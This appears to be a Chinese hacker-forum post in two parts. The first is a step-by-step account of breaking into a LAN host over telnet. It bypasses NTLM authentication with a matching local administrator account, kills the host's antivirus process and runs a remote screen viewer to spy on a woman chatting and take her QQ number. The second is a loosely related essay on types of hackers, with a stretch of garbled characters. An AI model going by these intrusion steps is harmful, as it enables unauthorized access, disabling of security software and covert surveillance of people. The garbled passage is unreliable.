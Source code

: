 OK了... 
本地打开一cmd 
输入 
G:/>telnet 192.168.0.225 
回车后出现 
Server allows NTLM authentication only 
Server has closed connection 

需要NTML认证的...用小榕的那个ntml.exe就可以解决这一问题. 
ntlm.exe在《流光》的Tools目录中有的... 
没工具怎么办呢.. 
我们在本地添加一和远程主机同样的用户名 
输入 
net user user04 /add 添加user04密码为空的用户 
net localgroup administrators user04 /add 把user04加入管理员组 
然后来到G:/Winnt/system32下找到CMD.exe 
右击.创建快捷方式.然后在快捷方式 CMD右击..属性. 
在以其他用户身份运行前打勾... 

然后运行 
快捷方式 CMD 
弹出窗口.在用户名处输入user04密码为空 

然后 
telnet 192.168.0.225 
回车..哈哈...拿到shell了.... 
接下来的事就好办了...去黑基down了一个knlps 命令行下杀进程的东东 
copy上去././然后telnet上去.在CMD下执行...杀掉了瑞星的进程 
这下把瑞星给关了.还怕他提示有毒 
接着执行webserver.exe 
在IE里输入 
192.168.0.225 

看到了.挖卡卡..开心...点那个查看屏幕..呵..MM正在聊天... 
好了她的QQ号码也拿到手了..加了她去聊聊去.... 

一.黑客的分类和行为 


以我的理解，“黑客”大体上应该分为“正”、“邪”两类，正派黑客依*自己掌握的知识帮助系统管理员找出系统中的漏洞并加以完善，而邪派黑客则是通过各种黑客技能对系统进行攻击、入侵或者做其他一些有害于网络的事情，因为邪派黑客所从事的事情违背了《黑客守则》，所以他们真正的名字叫“骇客”（Cracker）而非“黑客”（Hacker），也就是我们平时经常听说的“黑客”（Cacker）和“红客”（Hacker）。 

无论那类黑客，他们最初的学习内容都将是本部分所涉及的内容，而且掌握的基本技能也都是一样的。即便日后他们各自走上了不同的道路，但是所做的事情也差不多，只不过出发点和目的不一样而已。 

很多人曾经饰遥骸白龊诳推绞倍甲鍪裁矗渴遣皇非常刺激？”也有人对黑客的理解是“天天做无聊且重复的事情”。实际上这些又是一个错误的认识，黑客平时需要用大量的时间学习，我不知道这个过程有没有终点，只知道“多多益善”。由于学习黑客完全出于个人爱好，所以无所谓“无聊”；重复是不可避免的，因为“熟能生巧”，只有经过不断的联系、实践，才可能自己体会出一些只可意会、不可言传的心得? 

在学习之余，黑客应该将自己所掌握的知识应用到实际当中，无论是哪种黑客做出来的事情，根本目的无非是在实际中掌握自己所学习的内容。黑客的行为主要有以下几种： 

一、学习技术 

互联网上的新技术一旦出现，黑客就必须立刻学习，并用最短的时间掌握这项技术，这里所说的掌握并不是一般的了解，而是阅读有关的“协议”（rfc）、深入了解此技术的机理，否则一旦停止学习，那么依*他以前掌握的内容，并不能维持他的“黑客身份”超过一年。 
初级黑客要学习的知识是比较困难的，因为他们没有基础，所以学习起来要接触非常多的基本内容，然而今天的互联网给读者带来了很多的信息，这就需要初级学习者进行选择：太深的内容可能会给学习带来困难；太“花哨”的内容又对学习黑客没有用处。所以初学者不能贪多，应该尽量寻找一本书和自己的完整教材、循序渐进的进行学习。 
